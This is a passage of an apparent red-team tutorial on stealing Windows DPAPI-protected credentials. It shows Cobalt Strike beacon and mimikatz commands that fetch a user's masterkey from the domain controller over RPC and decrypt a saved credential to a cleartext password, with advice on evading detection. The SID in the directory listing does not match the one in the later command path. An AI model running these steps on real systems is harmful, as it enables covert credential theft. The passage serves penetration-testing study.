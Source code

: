 ```
  pbData             : b8f619[...snip...]b493fe
  dwSignLen          : 00000014 - 20
  pbSign             : 2e12c7baddfa120e1982789f7265f9bb94208985
```

The `pbData` field contains the encrypted data and the `guidMasterKey` contains the GUID of the key needed to decrypt it. The masterkey information is stored in the following directory specifying the user SID.

```
beacon> ls C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1122

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
 740b     fil     02/21/2021 11:49:40   a23a1631-e2ca-4805-9f2f-fe8966fd8698
 928b     fil     02/21/2021 11:49:40   BK-CORP
 24b      fil     02/21/2021 11:49:40   Preferred
```

It is possible to dump the masterkey from memory with `sekurlsa::dpapi` on a high integrity session, but this interacts with LSASS which is not ideal for OPSEC.

There are more silent ways such us using the RPC service exposed on the DC.

```
beacon> mimikatz dpapi::masterkey /in:C:\Users\user\AppData\Roaming\Microsoft\Protect\S-1-5-21-3263068140-2042698922-2891547269-1120\a23a1631-e2ca-4805-9f2f-fe8966fd8698 /rpc

[domainkey] with RPC
[DC] 'corp.local' will be the domain
[DC] 'dc.corp.local' will be the DC server
  key : 0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df
  sha1: e3d7a52f1755a35078736eecb5ea6a23bb8619fc
```
Once the `key` is obtained we can decyrpt the credential with `dpapi::cred`.

```
beacon> mimikatz dpapi::cred /in:C:\Users\user\AppData\Local\Microsoft\Credentials\9D54C839752B38B233E5D56FDD7891A7 /masterkey:0c0105785f89063857239915037fbbf0ee049d984a09a7ae34f7cfc31ae4e6fd029e6036cde245329c635a6839884542ec97bf640242889f61d80b7851aba8df

Decrypting Credential:
 [...snip...]
  UserName       : CORP\user
  CredentialBlob : Passw0rd!
```